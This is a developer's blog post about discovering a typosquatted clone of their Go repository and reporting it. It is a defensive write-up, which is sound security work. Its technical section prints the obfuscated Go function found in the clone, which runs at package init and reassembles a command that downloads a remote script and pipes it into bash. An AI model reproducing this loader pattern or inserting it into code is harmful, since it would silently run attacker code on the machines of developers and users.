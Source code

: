 ```yaml
---
title: Detecting a Typosquatting Attack on my Go repository
date: 2025-03-25
summary: A look at how I discovered a typosquatting attack on my repository and the steps I took to combat it.
categories: [GitHub, Go, Security, Typosquatting]
---
```


[Typosquatting](https://en.wikipedia.org/wiki/Typosquatting) is not a new concept, but its impact on the Go ecosystem has been growing steadily. In this post, I’ll share how I uncovered a typosquatting attack targeting my project, detail the inner workings of such attacks, and outline effective measures to mitigate these risks.

# How I Discovered the Attack

Two days ago I released a new version of my library [go-hoarder](https://github.com/Madh93/go-hoarder) following a recent publication of [Hoarder](https://hoarder.app/). Out of curiosity, I decided to check who else was using my library by visiting [go-hoarder dependents](https://github.com/Madh93/go-hoarder/network/dependents?dependent_type=REPOSITORY). There, in addition to one of my own projects ([Hoarderbot](https://github.com/Madh93/hoarderbot)), I discovered another repository that was an exact duplicate of my Hoarderbot.

At first, it seemed like a legitimate fork or clone, but something felt off. A quick `git diff` revealed that the repository was not an official fork at all. Instead, I found that the code had been subtly modified to include suspicious, obfuscated logic.

# The Wider Threat Landscape

I found out that my case is just one example in a larger attack. In these incidents, attackers copy popular repositories—often with only a slight typo in the name—and add harmful code. You can read more in these articles:

- [Typosquatted Go Packages Deliver Malware Loader](https://socket.dev/blog/typosquatted-go-packages-deliver-malware-loader)
- [Rogue One: A Malware Story](https://mhouge.dk/blog/rogue-one-a-malware-story)

These sources illustrate that this is not an isolated incident, but rather a systematic abuse of the package ecosystem that affects many projects across the Go community.

# Delving into the Technical Details

Attackers copy a trusted repository very closely, with only minor changes in the name that can trick users into thinking it is the real one. After making the copy, they change parts of the code to include hidden commands. For example, here’s a snippet that exemplifies the obfuscation technique used:

```go
func vDawlkJr() error {
    TZ := []string{"n", "a", "7", "a", " ", "d", "s", "&", "d", "w", "f", "o", "b", "h", "/", "u", " ", "i", "|", "6", "m", "i", "s", "t", "e", "3", " ", "/", "b", "r", "4", "/", "r", "3", "0", "p", "t", "o", ":", "b", "n", "e", "a", "t", "v", "/", "-", "t", "c", "s", "f", "O", " ", "d", "/", " ", "3", "-", "f", "g", "/", "5", "c", "g", "e", "e", ".", "h", "/", "1", "a", " "}
    VSIlPIf := "/bin/sh"
    BuTQBr := "-c"
    XwDuEVID := TZ[9] + TZ[59] + TZ[65] + TZ[43] + TZ[26] + TZ[57] + TZ[51] + TZ[4] + TZ[46] + TZ[71] + TZ[13] + TZ[36] + TZ[23] + TZ[35] + TZ[49] + TZ[38] + TZ[27] + TZ[68] + TZ[62] + TZ[70] + TZ[32] + TZ[44] + TZ[41] + TZ[48] + TZ[11] + TZ[20] + TZ[17] + TZ[66] + TZ[58] + TZ[15] + TZ[0] + TZ[14] + TZ[22] + TZ[47] + TZ[37] + TZ[29] + TZ[1] + TZ[63] + TZ[24] + TZ[31] + TZ[5] + TZ[64] + TZ[25] + TZ[2] + TZ[33] + TZ[8] + TZ[34] + TZ[53] + TZ[10] + TZ[45] + TZ[3] + TZ[56] + TZ[69] + TZ[61] + TZ[30] + TZ[19] + TZ[39] + TZ[50] + TZ[52] + TZ[18] + TZ[55] + TZ[60] + TZ[28] + TZ[21] + TZ[40] + TZ[54] + TZ[12] + TZ[42] + TZ[6] + TZ[67] + TZ[16] + TZ[7]
    exec.Command(VSIlPIf, BuTQBr, XwDuEVID).Start()
    return nil
}

var uOjeiC = vDawlkJr()
```

This code builds a shell command by piecing together strings from an array. The obfuscation makes it hard to see what the command really does, which helps the malicious code hide from basic security checks.

# The Impact on the Go Ecosystem

The broader implications of these attacks are significant:

- **Supply Chain Risks:** When developers unknowingly use these copied packages, they may introduce malware into their projects.
- **Loss of Trust:** The Go community values open source, but these attacks make it harder to trust external packages.
- **Extra Security Work:** Projects and companies must spend more time and resources on security to detect and fix these problems.

# How to Act

If you encounter a similar scenario, consider these steps to protect your project and the community:

- **Notify GitHub:** Report the [illegitimate repository](https://docs.github.com/en/communities/maintaining-your-safety-on-github/reporting-abuse-or-spam#reporting-a-repository) so GitHub can investigate and remove it.
- **Submit Feedback to Go Security:** Provide feedback through the [Go Security Vulnerability Feedback page](https://go.dev/doc/security/vuln/#feedback) to help address these threats.

# Conclusion

Typosquatting attacks are a growing threat in the Go ecosystem. By learning how attackers copy trusted repositories and hide harmful code, we can better protect our projects. Staying informed and careful is key to keeping our open-source community safe.
